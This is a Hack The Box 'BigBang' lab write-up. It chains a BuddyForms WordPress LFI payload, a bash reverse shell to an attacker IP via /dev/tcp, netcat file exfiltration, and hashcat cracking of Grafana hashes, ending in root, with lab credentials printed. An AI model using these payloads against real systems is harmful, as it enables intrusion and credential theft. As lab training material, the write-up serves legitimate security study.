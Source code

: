 🚀 Hack The Box — BigBang (Hard) 🧠

IP: 10.10.11.52Difficulty: HardCategory: Web, Privilege EscalationAuthor: Tabish (Paraphrased + Enhanced)

🧽 Initial Recon

We begin with full-port scanning to uncover all open services.

nmap -sV -A -T4 -p- 10.10.11.52 -oN port_scan

🔎 Ports Identified:

22/tcp — SSH

80/tcp — HTTP

Port 80 redirects to http://blog.bigbang.htb.We update /etc/hosts accordingly:

echo "10.10.11.52 blog.bigbang.htb" | sudo tee -a /etc/hosts

🌐 Web Enumeration

The target serves a WordPress blog. We conduct further enumeration using:

wpscan --url http://blog.bigbang.htb --enumerate p

Findings:

WordPress version 6.5.4

Plugin: BuddyForms — known vulnerable to LFI via upload_image_from_url.

📂 Exploiting LFI to Extract Config

Use the vulnerable BuddyForms plugin to read wp-config.php:

curl 'http://blog.bigbang.htb/wp-admin/admin-ajax.php' \
  -d 'action=upload_image_from_url&url=php://filter/convert.base64-encode/resource=../wp-config.php&id=1&accepted_files=image/gif'

Decode the base64 output to retrieve database credentials.

🧬 Shell Access (RCE via Plugin)

Using the plugin's upload endpoint for RCE:

python3 rce.py http://blog.bigbang.htb/wp-admin/admin-ajax.php \
  'bash -c "bash -i >& /dev/tcp/10.10.16.65/9092 0>&1"'

Listener on attack machine:

nc -lvnp 9092

Successfully captured a reverse shell. Extracted DB credentials from WordPress.

✅ Credentials:

Username: shawking

Password: quantumphysics

Logged in via SSH:

ssh shawking@10.10.11.52

Collected user flag at /home/shawking/user.txt.

⬆️ Privilege Escalation to Root

While exploring, we notice a snap directory, but nothing exploitable.

We shift focus to Grafana, likely running locally.

Using netstat, we confirm Grafana is listening internally. We forward the port and extract the database:

sqlite3 grafana.db
SELECT login, password FROM user;

Extracted password hashes.

💥 Cracked the hashes:

Cloned grafana2hashcat, moved hashes and ran:

hashcat -m 12100 -a 0 hashes.txt rockyou.txt

✅ Credentials:

Username: developer

Password: bigbang

SSH into new user:

ssh developer@10.10.11.52

🚁 Android APK & Root

Discovered /opt/android/satellite.apk.

Transferred the APK to attacker machine via netcat:

# On attacker
nc -lvnp 9001 > satellite.apk

# On target
nc <attacker-ip> 9001 < satellite.apk

Decompiled the APK and found an access token.

Using this token in a crafted curl request, escalated to root privileges.

Collected root.txt.

🌟 Final Notes

📂 Gained initial access via BuddyForms plugin LFI + RCE

🔐 Escalated privileges using Grafana DB extraction and APK token abuse

🔑 Two sets of credentials cracked using hashcat

🧠 Solid chaining of WordPress > Plugin Exploits > RCE > SSH > Grafana > APK Token > Root

Rooted 🎯 BigBang (HTB) like a beast. 💀
